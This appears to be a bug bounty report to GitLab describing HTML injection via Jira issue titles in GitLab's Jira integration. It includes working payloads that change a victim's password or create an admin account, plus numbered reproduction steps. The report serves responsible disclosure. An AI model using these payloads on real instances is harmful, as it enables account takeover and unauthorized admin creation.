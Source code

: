 When the payload have fired, the OAuth user will have a new password. The user will be logged out but nothing else will point to the password having been set. Account takeover complete!


This payload will add a new administrator to the instance if an administrator visits the malicious page
```
<a href=http:j15.se class=js-feature-highlight data-dismiss-endpoint='/api/v4/users?admin=true&email=j@j15.se&name=h&username=hack&password=12345678&skip_confirmation=true'>.</a><style>@import '/api/v4/projects/30205462/jobs/2304158115/artifacts/a.css
```
Pulled apart
```
<a href=http:j15.se
  class=js-feature-highlight
  data-dismiss-endpoint='/api/v4/users?admin=true&email=j@j15.se&name=h&username=hack&password=12345678&skip_confirmation=true'>
.</a>
<style>@import '/api/v4/projects/30205462/jobs/2304158115/artifacts/a.css
```


## Steps to reproduce

This requires three things:
1. access to a premium subscription (no problem on GitLab.com as there are free trials, they work great for the attack)
2. a Jira server. I used a cloud Jira instance on atlassian.com
3. a third party account that is not registered on GitLab. ex a GitHub user

POC:
1. Create a user `attacker`
2. Log in as `attacker` and create a group `attack_group` by visiting https://gitlab.com/groups/new (make sure the group have premium access)
3. Create a new project in the group called `attack_proj`
4. Go to https://gitlab.com/attack_group/attack_proj/-/integrations/jira/edit
5. Follow the guide at https://docs.gitlab.com/ee/integration/jira/issues.html#view-jira-issues to enable viewing Jira issues in the project
6. Log in to Jira and create a task on the dashboard and name it `<img src=#>`
7. Go to https://gitlab.com/attack_group/attack_proj/-/integrations/jira/issues and make sure the task is shown as an issue
8. Click the issue to open the Issue details page. The title will render as a broken image. This proves the injection.

{F1683460}

9. Now go back to Jira and create a new task and name it
```
<a href=http:j15.se class=js-feature-highlight data-dismiss-endpoint='/-/profile/password?_method=put&user%5Bnew_password%5D=12345678&user%5Bpassword_confirmation%5D=12345678'>.</a><style>@import '/api/v4/projects/30205462/jobs/2304158115/artifacts/a.css
```
10. Go back to the issue list and refresh to make sure it is created
11. Now log in to GitLab.com with a third party provider, generating a new account on GitLab.com
12. (if the test project is not public invite the new user to the project as a Developer by visiting https://gitlab.com/atack_group/attack_proj/-/project_members)
13. Now visit the https://gitlab.com/attack_group/attack_proj/-/integrations/jira/issues list with the OAuth user and click the task with the payload
14. A page will show up looking empty, click anywhere on the page
15. The page will flicker, and now when you hover over the page it will show a big blue button stating "Got it!". Click it
